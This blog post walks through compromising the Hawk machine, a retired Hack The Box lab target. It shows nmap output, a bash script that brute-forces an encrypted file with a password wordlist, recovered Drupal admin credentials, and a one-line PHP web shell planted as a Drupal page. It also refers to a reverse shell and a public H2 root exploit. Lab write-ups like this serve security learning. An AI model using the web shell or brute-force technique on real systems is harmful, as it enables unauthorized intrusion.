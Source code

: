 ```yaml
---
layout: post
title: "Hawk: Hack The Box Walkthrough"
subtitle: "When I bestride him, I soar; I am a hawk."
date: 2018-12-02 08:34:55 +0000
last_modified_at: 2018-12-09 08:24:05 +0000
category: Walkthrough
tags: ["Hack The Box", Hawk, retired]
comments: true
image:
  feature: hawk-htb-walkthrough.jpg
  credit: Prawny / Pixabay
  creditlink: https://pixabay.com/en/vintage-japanese-watercolour-1829844/
---
```


This post documents the complete walkthrough of Hawk, a retired vulnerable [VM][1] created by [mrh4sh][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## Background

Hawk is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -T5 -n -v -Pn -p- -A --reason -oN nmap.txt 10.10.10.102
...
PORT     STATE SERVICE       REASON         VERSION
21/tcp   open  ftp           syn-ack ttl 63 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Jun 16 22:21 messages
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.13.108
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh           syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e4:0c:cb:c5:a5:91:78:ea:54:96:af:4d:03:e4:fc:88 (RSA)
|   256 95:cb:f8:c7:35:5e:af:a9:44:8b:17:59:4d:db:5a:df (ECDSA)
|_  256 4a:0b:2e:f7:1d:99:bc:c7:d3:0b:91:53:b9:3b:e2:79 (ED25519)
80/tcp   open  http          syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
5435/tcp open  tcpwrapped    syn-ack ttl 63
8082/tcp open  http          syn-ack ttl 63 H2 database http console
|_http-favicon: Unknown favicon MD5: 8EAA69F8468C7E0D3DFEF67D5944FF4D
| http-methods:
|_  Supported Methods: GET POST
|_http-title: H2 Console
9092/tcp open  XmlIpcRegSvc? syn-ack ttl 63
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9092-TCP:V=7.70%I=7%D=11/28%Time=5BFF2AED%P=x86_64-pc-linux-gnu%r(N
SF:ULL,45E,"\0\0\0\0\0\0\0\x05\x009\x000\x001\x001\x007\0\0\0F\0R\0e\0m\0o
SF:\0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\0t\0o\0\x20\0t\0h\0
SF:i\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n\0o\0t\0\x20\0a\0l\
SF:0l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0A\0l\0l\0o\0w\0O\0t
SF:\0h\0e\0r\0s\xff\xff\xff\xff\0\x01`\x05\0\0\x01\xd8\0o\0r\0g\0\.\0h\x00
SF:2\0\.\0j\0d\0b\0c\0\.\0J\0d\0b\0c\0S\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0
SF::\0\x20\0R\0e\0m\0o\0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\
SF:0t\0o\0\x20\0t\0h\0i\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n
SF:\0o\0t\0\x20\0a\0l\0l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0
SF:A\0l\0l\0o\0w\0O\0t\0h\0e\0r\0s\0\x20\0\[\x009\x000\x001\x001\x007\0-\x
SF:001\x009\x006\0\]\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s
SF:\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0J\0d\0b
SF:\0c\0S\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\
SF:0o\0n\0\.\0j\0a\0v\0a\0:\x003\x004\x005\0\)\0\n\0\t\0a\0t\0\x20\0o\0r\0
SF:g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0
SF:o\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\
SF:0:\x001\x007\x009\0\)\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0
SF:e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\
SF:0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x001\x005\x005\0\)\
SF:0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0
SF:D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\0x\0c\0e\0p\0
SF:t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x001\x004\x004\0\)\0\n\0\t\0a\0t\0\x20\0o
SF:\0r");
```

Going the `ftp` route reveals a `messages` directory that contains a hidden file `.drupal.txt.enc`. The file is encrypted by `openssl enc` as characterized by `Salted__` header.

<a class="image-popup">
![0b315a7f.png](/assets/images/posts/hawk-htb-walkthrough/0b315a7f.png)
</a>

## Decryption of AES-256-CBC

I'm guessing the password or passphrase to decrypt the file must be simple. As such, I wrote the following script to automate the decryption of the file by going through a wordlist.

<div class="filename"><span>decrypt.sh</span></div>

```bash
#!/bin/bash

CIPHERS=$1
FILE=$2
PASS=$3

for c in $(cat $CIPHERS); do
  openssl enc $c -d -a -salt -in $FILE -pass pass:"$PASS" &>/dev/null
  if [ $? -eq 0 ]; then
    d="$(openssl enc $c -d -a -salt -in $FILE -pass pass:$PASS 2>/dev/null)"
    echo "[+] Trying $c with '$PASS'..."
    printf "%s\n\n" "$d"
  fi
done
```

Since I don't know the cipher used, the script runs through all the available ciphers in `openssl enc`. Let's run the script.

```
# parallel -j4 ./decrypt.sh ciphers.txt .drupal.txt.enc "{}" < /usr/share/seclist/Passwords/darkweb-top1000.txt | tee decrypted.txt
```

<a class="image-popup">
![083d4843.png](/assets/images/posts/hawk-htb-walkthrough/083d4843.png)
</a>

## Drupal 7.58

This version is not affected by Drupalgeddon2. The credentials to the administrative interface is (`admin:PencilKeyboardScanner123`)

In order to write PHP code as pages in Drupal 7, the PHP Filter module needs to be enabled. Once you have done that, create a PHP page containing the following code:

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

Simple as it looks, the code allows us to execute remote commands as `www-data`. Well, now we can run a reverse shell back to us.

I have a preference for Perl reverse shell because Perl is, more often than not, available in Linux.

## H2 1.4.196 Remote Code Execution

During enumeration of the `www-data` account, I notice the H2 database is ran as `root`. Simply run the proof-of-concept code from EDB-ID [45506](https://www.exploit-db.com/exploits/45506) to get a `root` shell.

[1]: https://www.hackthebox.eu/home/machines/profile/146
[2]: https://www.hackthebox.eu/home/users/profile/2570
[3]: https://www.hackthebox.eu/
